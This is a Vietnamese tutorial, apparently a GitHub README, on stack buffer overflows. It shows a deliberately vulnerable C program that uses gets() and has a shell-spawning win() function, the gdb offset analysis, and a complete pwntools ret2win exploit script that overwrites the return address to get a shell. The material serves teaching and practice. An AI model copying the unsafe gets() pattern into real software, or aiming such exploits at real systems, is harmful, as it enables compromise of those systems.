 # Decription

BOF (Buffer Over Flow) là một lỗi rất phổ biến và nguy hiểm trong chương trình. Nó có thể gây ra mất/ghì đè dữ liệu nhạy cảm thậm chí có thể lấy được toàn quyền hệ thống.

Khi một biến được khai báo với 1 số lượng nhất định nhưng đầu vào lại không kiểm soát số lượng nhập. Lúc này bof sẽ gây ra tràn dung lượng của biến đó và gây phá vỡ stack, tràn sang cả vùng nhớ lân cận.

Nếu không có những biện pháp an toàn thì hacker có thể chiếm được hệ thống và lấy được những thông tin nhạy cảm.

# Code có Bug

Tôi sẽ viết 1 chương trình C đơn giản làm rõ về bof

```c
#include<stdio.h>
#include <stdlib.h>

char *gets(char *);
void win() {
    system("/bin/sh");
}

int main(){
    char buf[128];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    gets(buf);
    return 0;
}
```

![](images/gcc.png)

# DEBUG

![](images/gdb.png)

Hãy luôn kiểm tra checksec đầu tiên.

No canary tức là được bof mà không cần sợ bị chặn.

Những bài có bof hãy đặt b* ngay tại hàm gây lỗi và tại hàm ret.

buf được khai báo với 128 bytes nhưng gets lại không giới hạn đầu vào nên ta cần tìm offset đến ret.

Ret là câu lệnh nhảy về hàm mẹ. Do đó nếu ta kiểm soát được ret thì sẽ kiểm soát được cả chương trình.

![](images/pattern.png)

Tại gets tạo pattern 200 ( hoặc lớn hơn) sau đó nhập vào.

![](images/sigsegv.png)

Tại ret báo sigsegv. Là do ta ghì đè qua cả ret địa chỉ không hợp lệ nên ret không nhảy vào đó được. Hãy tính offset bằng pattern.

![](images/search.png)

Chúng ta chỉ cần 136 bytes là overflow được ret.

Tiếp theo là tìm địa chỉ win để ghì đè vào ret.

![](images/win.png)

Vậy payload = b'a'*136 + p64(win_addres)


![](images/flag.png)

# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401194
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a'*136
payload += p64(exe.sym.win+1)

sl(payload)
p.interactive()
```



